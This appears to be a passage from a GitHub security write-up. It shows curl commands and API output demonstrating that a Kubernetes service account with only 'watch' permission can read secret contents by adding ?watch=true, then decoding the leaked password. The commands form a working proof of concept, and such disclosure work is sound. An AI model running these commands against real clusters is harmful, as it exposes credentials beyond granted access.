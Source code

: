 ```bash
  "message": "secrets \"abcd\" is forbidden: User \"system:serviceaccount:default:watch-sa\" cannot get resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "name": "abcd",
    "kind": "secrets"
  },
  "code": 403
}

curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:default:watch-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "kind": "secrets"
  },
  "code": 403
}
  
# Now to get all secrets in the default namespace, despite not having "get" permission
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets?watch=true --insecure
{"type":"ADDED","object":{"kind":"Secret","apiVersion":"v1","metadata":{"name":"abcd","namespace":"default","uid":"bd1b0f74-ce54-47c4-a1dc-91893848e4ed","resourceVersion":"477","creationTimestamp":"2023-12-18T13:30:41Z","managedFields":[{"manager":"kubectl-create","operation":"Update","apiVersion":"v1","time":"2023-12-18T13:30:41Z","fieldsType":"FieldsV1","fieldsV1":{"f:data":{".":{},"f:secretPassword":{}},"f:type":{}}}]},"data":{"secretPassword":"dmVyeVNlY3VyZQ=="},"type":"Opaque"}}"

# crtl+c to stop curl as this http request will continue

# Proving that we got the full secret
echo "dmVyeVNlY3VyZQ==" | base64 -d
verySecure

# Cleanup
kubectl delete serviceaccount $serviceName
kubectl delete role $roleName 
kubectl delete rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName
kubectl delete secret abcd

```

### References

Kubernetes security recommendations for developers:
<https://kubernetes.io/docs/concepts/configuration/secret/#security-recommendations-for-developers>
